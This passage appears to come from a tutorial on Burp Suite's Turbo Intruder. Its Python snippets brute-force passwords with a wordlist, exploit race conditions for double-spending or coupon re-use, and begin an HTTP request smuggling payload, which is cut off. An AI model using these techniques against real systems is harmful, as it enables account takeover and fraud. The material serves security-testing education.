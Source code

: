 ```py

def handleResponse(req, interesting):
    if b"Welcome" in req.response:
        print("Valid password found:", req.words[0])
```
- engine.queue → sends the request with payload substitution (%s inside the request gets replaced).
- handleResponse → inspects response bodies.

## 4. Key Engine Parameters
### When creating RequestEngine:

- `concurrentConnections`: How many TCP sockets open at once.
- `requestsPerConnection`: How many requests per socket.
- `pipeline=True`: Sends multiple requests without waiting for responses (useful in smuggling/race).
- `timeout=5`: Timeout for responses.
- `resumeSSL=False`: Avoids reusing SSL sessions (sometimes needed).

👉 Tuning these is how you outperform Burp Intruder.

## 5. Advanced Use Cases
### 5.1 Password Spraying / Brute Force
#### Use a list of payloads (wordlists).
- Turbo Intruder can queue millions of requests without memory blowups.
```py
for word in open('/usr/share/wordlists/rockyou.txt'):
    engine.queue(target.req, word.strip())
```
### 5.2 Race Condition Exploitation
#### Race conditions need parallel requests hitting at exactly the same time.
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=20,
        requestsPerConnection=10,
        pipeline=True
    )
for i in range(50): # Send 50 requests at once
    engine.queue(target.req, str(i))
```
- Sends 50 identical requests in parallel.
- If the backend doesn’t lock properly → double-spend, auth bypass, coupon re-use.

### 5.3 HTTP Request Smuggling
#### Turbo Intruder’s pipelining is perfect for this.
##### You can craft a CL.TE or TE.CL request and send it with concurrency.
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(
        target.endpoint,
        concurrentConnections=1,
        requestsPerConnection=1
    )
smuggle = """POST / HTTP/1.1
Host: target.com
Content-Length: 60
Transfer-Encoding: chunked
```